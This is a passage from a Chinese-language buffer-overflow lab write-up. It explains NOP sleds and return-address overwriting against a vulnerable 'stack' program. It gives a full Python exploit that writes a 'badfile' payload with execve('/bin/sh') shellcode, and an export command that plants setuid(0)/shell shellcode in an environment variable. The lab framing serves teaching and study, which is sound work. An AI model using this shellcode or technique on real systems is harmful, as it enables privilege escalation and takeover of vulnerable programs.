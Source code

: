 接下来我们需要让 buffer 溢出，并在原来存放返回地址的位置写入恶意代码的地址。

由于在 GDB 中运行得到的 bof 函数的栈帧地址可能与直接运行时不同。我们可以通过填充 NOP 指令为恶意代码创建大量入口点。使用 NOP 填充使得我们不需要精确预测恶意代码被存放的地址，而只要保证写入的地址能藉由NOP“滑到”恶意代码。

攻击程序的 Python 代码如下：

```python
import sys

shellcode = (
    "\x31\xc0"             # xorl    %eax,%eax
    "\x50"                 # pushl   %eax
    "\x68""//sh"           # pushl   $0x68732f2f
    "\x68""/bin"           # pushl   $0x6e69622f
    "\x89\xe3"             # movl    %esp,%ebx
    "\x50"                 # pushl   %eax
    "\x53"                 # pushl   %ebx
    "\x89\xe1"             # movl    %esp,%ecx
    "\x99"                 # cdq
    "\xb0\x0b"             # movb    $0x0b,%al
    "\xcd\x80"             # int     $0x80
).encode('latin-1')

length = 517
buf = bytearray(0x90 for i in range(length))
shell_start = length - len(shellcode)
buf[shell_start:] = shellcode

for i in range(36):
	buf[i] = 0x41
ret = 0xbffff110 + 200
buf[36:40] = (ret).to_bytes(4, byteorder='little')

File = open("badfile", "wb")
File.write(buf)
File.close()
```

首先向字符串填充 NOP，然后在最末端插入提权 shellcode。由前面可知，我们需要先填充 36 个字节到达返回地址，并将返回地址修改为能到达恶意代码的入口地址即可。
这里写入的地址ret比较随意，只要保证在NOP的区间内即可，可选地址区间很大。

运行 exploit.py 生成攻击缓冲区的字符串 badfile，然后运行程序 stack。

![image](/001/07.png)

可以看到攻击成功。

### 4.2 将提权 shell 插入环境变量

我们可以先将写好的 shell 放在环境变量中，然后通过程序得到环境变量的地址。我们直接将返回地址覆盖为该环境变量的地址即可。

使用如下命令创建提权 shell 环境变量：

```
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```
